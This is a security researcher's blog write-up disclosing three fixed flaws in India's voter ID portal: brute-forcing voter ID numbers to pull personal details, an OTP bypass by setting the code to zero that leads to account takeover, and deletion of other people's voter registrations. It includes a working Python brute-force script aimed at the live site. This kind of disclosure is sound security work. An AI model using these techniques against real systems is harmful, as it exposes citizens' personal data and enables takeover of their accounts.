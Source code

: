 ```yaml
---
layout: post
title: Exposing Millions of Voter ID card users’ details. 
date: 2022-07-07
summary: Three critical bugs in India's voter portal led to the exposure of voter ID card users' data, impacting millions of individuals.
categories: VDP
tags: [IDOR, ATO]
---
```


<p align="center">
  <img src="/blog/images/voter.webp">
</p>


*Hi, Everyone. hope you’re well. I’m [Aziz](https://twitter.com/nxtexploit). Through this write-up, I will share some security issues I’ve found on the official Voter ID card maintaining platform [http://nvsp.in](https://nvsp.in). I was filling out a correction form for my mom’s card, I’m not really interested in finding bugs on gov websites :`) that moment [burpsuite ](https://portswigger.net/burp/documentation/desktop/penetration-testing)was running in the background and I thought let's have a try. After spending half an hour I found some critical issues that I’m going to share. All these issues are already fixed by the government.*

In India, a [Voter ID](https://www.google.com/search?q=what+is+voter+ID+%28india%29) card is an identity document issued by the Election Commission of India to adult domiciles of India who have reached the age of 18, which primarily serves as an identity proof for Indian citizens while casting their ballot in the country’s municipal, state, and national elections. More than **780 million** Voter IDs are active at present.

---
<p align="center"><h2>Bruteforcing valid Voter IDs and extracting details (IDOR / BOLA)</h2></p>

While registering a new account it shows two options “I have ``EPIC`` number” and “I don’t have `EPIC` number”. `EPIC` stands for Electors Photo Identification Card and the `EPIC` number is nothing but Voter ID no. If we chose we don’t have a Voter ID number then they will give you an option to add after registering on the portal. After registration, I tried to add any random `EPIC` no. with my account but it show it's not valid. So I sent that HTTP request to burp intruder for [brute-forcing](https://en.wikipedia.org/wiki/Brute-force_attack).

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2728/1*SKG6_nhMm0PkRkRXJjK2yg.png">
</p>


A Voter ID also known as `EPIC` number is an alphanumerical ID, it contains three Alphabets at starting and seven numbers i.e. `WRI2345678`, `RDH2345678`, `DTN2345678`, `YCV2345678`, `NLN2345678`, `XMB2345678`, etc. These three alphabets are Not random alphabets, you can find similar IDs with similar these three alphabets in beginning but the rest seven digits are different.

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2000/1*oCiejaOMRmwdEpIRzi27PQ.png">
</p>

I added the payload position on these seven-digit numbers on `Epic_no=` parameter i.e `Epic_no=WRI$2345678$`  (as you can see in the below screenshot.)


<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2236/1*xz61EAZwEhSWlsDpMkJSSw.png">
</p>
<p align="center"> Adding payload position </p>


Surprisingly there is no limitation implemented in the backend and I was able to send **unlimited requests** without getting blocked by firewall. As a result backend server responding 302 redirections for every valid voter ID. (As shown in the screenshot below)


<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2740/1*dLe_eyFiPf9amQz0o50meQ.png">
</p>
<p align="center">
  Responding 302 for every valid voter ID
</p>


Then I wrote a [python script](https://github.com/nxtexploit/Voter-ID-bruteforcer/blob/main/Voter-ID-bruteforcer.py) that will brute force the values and give output all valid voter_IDs for me.

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2000/1*DA8ghQIWnJlNZty0OK6oEA.gif">
</p>


```python

import urllib3
import requests
import time
from termcolor import colored
urllib3.disable_warnings()
start = time.perf_counter() 

cookies = {
    'nvsp': '4e565XXXXX',
    'cookiesession1': '678B286C164561FFEFXXXXXXXXXXX',
    'nvsp': '4e56XXXXX',
    'nvspid': 'ycnpiabqfasdf0asdf09ad',
    '__RequestVerificationToken': 'taDxPTIR3vxuyduujVCoi5eJdSlsAv1X0MQea7VYvLf6ksNDNsK7BkQZbNLSKagASDFpouasdfuopasfcsCmlofM6tTlC1opGS9FBEjYYXxC-z9ze73zdtEjUXtq9JfGVDfsXwt3WmQ925gSsbUw2',
    '.ASPXAUTH': '53BDCF7905E361CB6ECE80B77506A1A4A54DFS6546A5DF787AS8DFB2B9CE6874FDE524BF7BAE0DDC59329705AB29D49A148B4494341EC7634C13DB69FA25425DCA10CAADA3A10B025D58D8220E842959F0C650A8DF39B43039354B537BCE61AFB4922B99E22F20DC099C0DE9BC2CA53D1A37F387867855DDE5D89583B2F5F95D898A',
}

headers = {
    'Host': 'www.nvsp.in',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://www.nvsp.in',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.nvsp.in/Account/MyProfile',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


for voter_ID in range(2000000,2999999,1):


    data = '__RequestVerificationToken=dayrB-CCldwVYHXi7OE8b455jM3jLXRIdlHGQ5Wf4XyFE_7jjo1X3VfmkC4ZanqFO6h0XtveuAmSk1SIWWmV-SbA7nTUIJNKAfyRoiG43FvEAlDPi5VfkJWpGn9sV8IuFuBezLnC-tZSYFGqrRbECXgqlxpSduENgqaWy7oWQK01&OTP=&UserId=UQH34XXXXXXXX&firstName=Aziz&lastName=&Email=XXXXXXXX%40gmaill.com&Epic_no=WRI'+str(voter_ID)+'&PhoneNumber=XXXXXXXX87&st_code=S25&ac_no=55&PART_NO=42&Captcha=&Code='

    response = requests.post('https://www.nvsp.in/Account/MyProfile',allow_redirects=False, cookies=cookies, headers=headers, data=data, verify=False)

    if response.status_code == 302:
        print(f"Epic-ID FOUND = "+colored("WRI"+str(voter_ID),'green'))
    elif response.status_code == 200:
        print(colored("Not valid ID",'yellow'))
    else:
        print(colored("Session Expired ",'red')+"(response code = "+colored(str(response.status_code),'yellow')+")")

finish = time.perf_counter()

print(f'\n\nFinished in {round(finish-start, 2)} second(s)\n')

```

Now I have valid Voter IDs of random persons then, I added these IDs with my profile under “[/Account/MyProfile](https://www.nvsp.in/Account/MyProfile)”. Then there is an option under the “/[forms](https://www.nvsp.in/Forms)/”section which is **form001** and this form is already filled with **Name, father’s name, address, Date of birth, etc. **according to that valid EPIC ID added to my profile.

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2732/1*6izoRB4cWjN5zjdZTDYdJg.png">
</p>
<p align="center">Extracted details of a random Person</p>

---

<p align="center"><h2>Account takeover (OTP bypass)</h2></p>

On the profile details updating section I was trying to add another user's number. So I created another account for it. But there was an OTP implanted there, and I tried to brute-force it but it didn’t work :( I remember reading an article last year, you can read it **[here](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)**, where the author just added 0 after intercepting the request. And I did the same thing here on OTP parameter and it worked :)



<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2740/1*q0TSMqdgsXTtzROWDo6y9g.png">
</p>
<p align="center">intercepting traffic while OTP is verifying</p>




<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2000/1*eEVjGxhUUzdbv2vkHlExnw.png">
</p>
<p align="center">Changed the OTP value to zero</p>


After bypassing I thought it just can register the victim’s number then I’ll reset the password, But surprisingly on replacing the victim’s number my profile data automatically changed with the victim’s details, And I can own his account.

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2740/1*az1-jwdyMLK1pOLWbA6ghA.png">
</p>

---

<p align="center"><h2>Delete/remove any random user’s Voter ID card Permanently (Logic flaw)</h2></p>

From the 1st bug, we can get and add any random user’s Voter ID to our account, From that on the home page there is an option for “Deletion of Enrolment”. And nothing to be needed after an attacker added any random Voter ID on his profile section. then he can easily delete any random user’s Voter ID permanently.

<p align="center">
  <img src="https://cdn-images-1.medium.com/max/2732/1*SvvI8ZoSelvF3-83BzQRTw.png">
</p>
<p align="center">
  An attacker can delete any random user’s card permanently</p>



I reported these three issues to [vdisclose@cert-in.org.in](https://www.cert-in.org.in/VulnerIncident.jsp) and they fixed these issues.

I hope you liked this article, If you have any questions then you can dm me on [Twitter](https://twitter.com/nxtexploit).

Thanks for reading,

**Aziz**


